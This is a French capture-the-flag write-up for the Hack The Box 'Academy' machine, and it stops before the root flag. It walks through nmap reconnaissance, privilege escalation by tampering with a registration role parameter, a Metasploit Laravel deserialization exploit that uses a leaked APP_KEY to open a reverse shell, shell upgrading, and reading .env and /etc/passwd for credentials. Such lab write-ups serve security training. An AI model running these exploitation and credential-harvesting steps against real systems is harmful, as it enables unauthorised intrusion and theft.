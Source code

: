 # Machine Academy

## Sommaire

* Lancement
* Connexion
* Exploitation

## Lancement

### Nmap :

Nmap : 
```bash
nmap -A -T4 10.10.10.215 
```
Results :
```
Nmap scan report for 10.10.10.215
Host is up (0.087s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:90:a3:d8:35:25:6f:fa:33:06:cf:80:13:a0:a5:53 (RSA)
|   256 2a:d5:4b:d0:46:f0:ed:c9:3c:8d:f6:5d:ab:ae:77:96 (ECDSA)
|_  256 e1:64:14:c3:cc:51:b2:3b:a6:28:a7:b1:ae:5f:45:35 (ED25519)
80/tcp   open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://academy.htb/
8080/tcp open  http-proxy?
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=2/4%OT=22%CT=1%CU=33562%PV=Y%DS=2%DC=T%G=Y%TM=601BDC5A
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)SEQ(
OS:SP=108%GCD=1%ISR=10A%TI=Z%CI=Z%TS=A)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O3
OS:=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=FE88%W2=F
OS:E88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW
OS:7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF
OS:=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=
OS:%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=
OS:0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RI
OS:PCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 143/tcp)
HOP RTT      ADDRESS
1   94.76 ms 10.10.14.1
2   95.07 ms 10.10.10.215
```

### Associer une IP à un nom de domaine

Editer le fichier `/etc/hosts`, dans la partie IPV4 renseigner l'IP, tabuler, et le nom de domaine associer.

### Dirbuster

Lancer `dirbuster`.

Renseigner la liste voulu pour les tests : `/usr/share/dirbuster/wordlist/directory-list-2.3-medium.txt`.

On remarque alors un chemin de fichier `admin.php` et sur register on peut se créer un compte à la volé.

### Burp

Penser à ajouter le plugin `Burp` au navigateur web.

Faire la redirection de proxy dans les paramètres du navigateur, passer en proxy manuel : avec 127.0.0.1 port 8080.

Dans `Burp` aller dans l'onglet `Proxy`, `Intercept`, le paseer en `on`, bien activer le plugin sur le navigateur et commencer à lancer les requêtes.

:warning: ne pas oublier de `Forward` pour valider les requêtes lancer sur le serveur.

## Connexion en userInvite

### Création de son Login sur academy.htb

Quand on arrive sur la page de connexion et quand on se créer son compte dans la trame `Burt` envoyer sur la dernière ligne on peut apercevoir `roleid=0`.

Changer cette valeure en `1`.

### Connexion au nouveau compte user

aller sur la page de connexion précédemment repérer :
`/admin.php`

Se connecter avec l'utilisateur créée

## Exploitation

### Lien trouvé 
`http://dev-staging-01.academy.htb/`

En aspectant la page sur laquelle on tombe, on peut voir que le serveur utiliser `Laravel` et que la ligne `APP_KEY` n'est pas masqué.

En une petite recherche permet de trouver un site qui nous montre qu'il y a une faille à exploiter.

https://www.rapid7.com/db/modules/exploit/unix/http/laravel_token_unserialize_exec/

Lancer `Metasploit` :
```
use exploit/unix/http/laravel_token_unserialize_exec
show options
set APP_KEY dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
set RHOSTS academy.htb
set LHOST tun0
set LHOST 10.10.14.125
set VHOST dev-staging-01.academy.htb
exploit
```

### Upgrade le shell

Quand on arrive on a un shell sale, afin de pouvoir l'upgrade utiliser python :
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

### Recherche Mot de Passe

```
cd ../../academy
cat .env
```
A ce moent on trouve le mot de passe d'un user.

Trouvons le user :
```
cat /etc/passwd | grep /bin
ou
ls /home
```

On remarque un utilisateur que l'on a déjà croisé sur la page `admin.php`.

On se connecte 
```
su nomdelutilisateur
+
le mot de passe 
```

Upgrade à nouveau le SHELL

### Trouver le flag user

```
locate user.txt
```
### A la recherhce du flag root
On part de la connexion avec l'utilisateur cry0l1t3.
On recherche du côté de SE Linux, un module qui permet d'avoir un tracabilité des commandes.
Il génère un fichier de log "audit.log"
Recherche dans les fichiers de logs d'un des deux utilisateurs en fonction de l'uid.

Après un recherche dans les logs on tombe sur une commande SU avec de la data encryptée en HEX. En la décyptant on obtient un mot de passe :

## Ressources 

